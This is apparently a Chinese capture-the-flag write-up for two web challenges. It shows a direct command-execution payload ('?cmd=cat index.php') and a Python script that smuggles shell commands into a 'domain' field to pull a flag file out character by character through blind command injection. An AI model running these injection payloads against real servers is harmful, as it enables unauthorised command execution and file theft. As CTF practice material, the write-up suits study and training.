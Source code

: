 ### Payload

![image-20230402145420078](C:\Users\20925\AppData\Roaming\Typora\typora-user-images\image-20230402145420078.png)

点击system details会回显系统信息。只增加了 btn一个参数也没有值，猜测回显条件为 `isset($_GET['btn'])`

robots.txt  下存在源码，cmd可以直接执行命令

payload：

`?cmd=cat index.php`

![image-20230402150855478](C:\Users\20925\AppData\Roaming\Typora\typora-user-images\image-20230402150855478.png)

### aLive

![image-20230402151523360](C:\Users\20925\AppData\Roaming\Typora\typora-user-images\image-20230402151523360.png)

可以执行命令，但只会回显bool

![image-20230402152022219](C:\Users\20925\AppData\Roaming\Typora\typora-user-images\image-20230402152022219.png)

![image-20230402152532546](C:\Users\20925\AppData\Roaming\Typora\typora-user-images\image-20230402152532546.png)

过滤了 echo，printf写马502

接下来就是根据命令回显盲注

```py
import requests
url="https://ch431629117491.ch.eng.run/"
data={
    "domain":";test `tac ./fl*|cut -c {0}` = \"{1}\" && printf \"The characters are equal.\""
}

print(data['domain'])

flag=""
for i in range(9,20):
    for j in range(70,128):
        data={
        "domain":";test `tac ./fl*|cut -c {0}` = \"{1}\" && printf \"The characters are equal.\"".format(i,chr(j))
        }
        result=requests.post(url=url,data=data)
        # print(data["domain"].format(i,chr(j)),result.text)
        print(i,chr(j))
        if "is inactive!" in result.text:
            j+=1
        else:
            flag+=chr(j)
            print(flag)
            break
print(flag)
```
